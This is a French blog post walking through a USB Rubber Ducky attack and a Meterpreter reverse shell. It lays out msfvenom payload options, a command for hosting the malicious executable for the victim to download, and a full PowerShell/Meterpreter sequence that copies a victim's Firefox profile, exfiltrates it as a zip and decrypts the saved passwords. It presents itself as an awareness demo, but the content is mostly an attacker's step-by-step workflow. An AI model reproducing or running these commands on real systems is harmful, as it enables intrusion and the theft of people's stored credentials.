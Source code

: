 +++
date = "2020-03-23T10:27:00+00:00"
draft = false
tags = ['securité']
title = "RubberDucky"
author = "Claw"
+++

## RubberDucky {#rubberducky}


### Fonctionnement


Il ressemble à une clef usb d'apparence anodine mais il s'agit en realité d'un clavier scripté capable de tapper plus de 1000mots par minute.
Il contient une carte memoire qui contient notre script et marche très bien sur tout OS même à jour.

![](/img/sec/ducky.png)

### Objectifs

- desactiver les antivirus |
- configurer un proxy |
- démarrer un reverse shell |
- insertion de certificat d'autorité |
- démarrer des scripts powershell |
- tels qu'un ransomware |


Exemple de script RubberDucky:

```text
DELAY 700                        // Attendre 700 ms
ESCAPE                           // Tapper Echap
DELAY 100                        // Attendre 100ms
CONTROL ESCAPE                   // Ouvrir le menu Démarer
DELAY 100
STRING Windows Security          // Tapper "Windows Security"
DELAY 200
...
```

### Compilation

![](/img/sec/comp.png)

Le compilateur est fournit en .jar c'est du java compilé et packagé:

- `-i` l'input
- `-l` l'output (doit tjs etre inject.bin)
- le plus important `-l` pour le langage du clavier


### Reverse shell

![](/img/sec/msfv.png)

Un reverse shell est un programme qui permet d'obtennir un acces distant pour executer des commandes.
Le but est de l'executer sur la machine de la victime pour qu'il se connecte a un shell qu'on a mit en ecoute de connection sur un serveur.

On utilise Msfvenom pour creer le payoad et Metasploit pour le server Meterpreter (cest sur celui ci que la victime va se connecter:
- `-a`: l'architecture CPU
- `--platform`: la plateforme (windows, android, nix...)
- `-p`: Le paylaod, dans ce cas meterpreter reverse_tcp
- `LHOST`: l'ip du server meterpreter
- `LPORT`: le port du server meterpreter
- `-e`: l'encoding
- `-f`: le format
- `>` /tmp/mad/666.exe: la destination

### Distribution

```bash
cd /tmp/mad && python -m http.server
# Sous ubuntu, debian... il faut utiliser python3 -m http.server
# car python = python2 sous ArchLinux python = python3
```

Une fois pret on utilise un petit server http pour que la victime puisse telecharger notre exe malvaillante

![](/img/sec/msf.png)


### Demo

[![](/img/sec/demoloosedoz.png)](https://yourlabs.io/oss/security/raw/master/assets/ducky-windoz.mp4)

[![](/img/sec/revshell.png)](https://yourlabs.io/oss/security/raw/master/assets/msf-reverseshell.mp4)

(clické sur les images pour voir les videos)

#### Conclusion:

Ne ramassez pas les clefs usb que vous trouvez dans la rue

---

## Reverse shell

### Usages

- Vol de mots de passe firefox
- Keylogger
- Screen capture
- Downloader et uploader des fichiers
- Implementation d'un ransomeware
- Reconnaissance et mouvement transversaux dans le reseau
- ...


### Vol de mots de passe Firefox

```powershell
meterpreter > shell
> powershell
> cd /users/<user> #(utilisez whoami pr le savoir)
> copy-item /users/33768/AppData/Roaming/Mozilla/Firefox/Profiles/*.default-release -destination /windows/temp/mad.default-release -recurse
> Compress-Archive -Path /windows/temp/mad.default-release -DestinationPath /windows/temp/mad.default-release.zip
> exit
> exit
meterpreter > Download /windows/temp/mad.default-release.zip /tmp
```

- [1] Lancer cmd)
- [2] Lancer powershell)
- [3] Copie des fichiers .default-release de firefox
- [4] Compression dans fichiers dans une archive zip
- [5-6] On exit 2 fois pour revenir au prompt `meterpreter >`
- [7] Exifltration de l'archive zip


### Extraction

Dans un autre terminal, on unzip et place les fichier dans le repetoir ~/.mozila/firefox

```bash
$ unzip mad.default-release.zip
$ sudo cp -r mad.default-release /home/<you>/.mozilla/firefox
$ sudo chown -R ${USER}. /home/<you>/.mozilla/firefox/mad.default-release
```

### Configuration

Par la suite on edite `~/.mozilla/firefox/profiles.ini avec le nouveau profile`

```text
[Profile2]
Name=default-release
IsRelative=1
Path=mad.default-release
```

### Dechiffrement

On utilise un outil appellé "[firefox-decrypt](https://github.com/Unode/firefox_decrypt/)":

```bash
$ git clone https://github.com/unode/firefox_decrypt.git
$ cd firefox_decrypt
$ python firefox_decrypt.py
```


### Resultat

![](/img/sec/password.png)


- [Partie 2: Ransomware](/posts/2020-03-24-windows_ransomware/)
- [Partie 3: SSL mitm](/posts/2020-03-24-ssl_mitm/)
